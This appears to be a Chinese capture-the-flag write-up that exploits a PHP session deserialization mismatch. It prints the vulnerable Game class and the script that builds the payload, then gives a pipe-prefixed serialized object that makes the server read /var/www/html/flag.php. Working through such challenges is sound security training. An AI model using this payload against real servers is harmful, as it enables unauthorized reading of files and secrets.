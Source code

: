 ![image-20250121141634933](https://gitee.com/bx33661/image/raw/master/path/image-20250121141634933.png)

点击可以看到可以查看源代码

![image-20250121141920391](https://gitee.com/bx33661/image/raw/master/path/image-20250121141920391.png)

PHPINFO界面

![image-20250121141835906](https://gitee.com/bx33661/image/raw/master/path/image-20250121141835906.png)

结合题目提示，和源代码分析，此题应该是PHP session反序列化

利用Game类的

```php
        public function __destruct(){
                echo "<h5>Game History</h5>\n";
        echo "<div class='all_output'>\n";
                echo file_get_contents($this->log);
        echo "</div>";
        }
```

构造

```php
<?php
class Game{
    public $log;

    public function __construct(){
        $this->log = '/var/www/html/flag.php';
    }

}

$a = new Game();
echo serialize($a);
?>
```

得到的结果前面添加一个管道符号

```php
|O:4:"Game":1:{s:3:"log";s:22:"/var/www/html/flag.php";}
```

> 在服务器php_serialize处理下存储该序列化串，管道符只是一个普通的字符存放在属性值里。
>
> 而后在读取中又经过了php配置处理，这时候管道符就成了分割键名和键值的分割线了。管道符后面的内容也就被成功的反序列化了，成功达到读取flag的目的。

最后利用

一个提交页面，我们抓包利用

![image-20250121142408509](https://gitee.com/bx33661/image/raw/master/path/image-20250121142408509.png)
